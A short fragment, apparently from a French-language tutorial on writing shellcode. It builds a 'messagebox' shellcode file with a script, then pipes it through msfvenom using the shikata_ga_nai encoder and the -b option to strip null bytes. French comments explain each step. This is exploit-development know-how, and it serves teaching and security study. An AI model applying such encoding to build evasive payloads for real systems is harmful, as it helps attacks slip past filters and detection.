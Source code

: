 ./create_shellcode.sh asm01 > messagebox.bin
// On fait en sorte d'obtenir dans messagebox.bin le shellcode en "\x68..." avec des NullBytes
cat messagebox.bin | msfvenom -p - -a x86 --platform linux -e x86/shikata_ga_nai -fc -b '\x00'

// l'option -b va nous permettre de retirer les NullBytes




